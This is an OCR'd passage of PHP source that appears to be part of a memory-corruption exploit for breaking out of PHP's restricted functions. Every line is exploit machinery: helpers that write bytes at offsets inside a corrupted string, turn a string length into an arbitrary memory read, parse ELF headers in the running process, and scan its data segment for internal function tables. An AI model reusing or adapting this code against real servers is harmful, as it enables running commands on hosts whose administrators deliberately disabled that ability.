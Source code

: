 ```php
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
```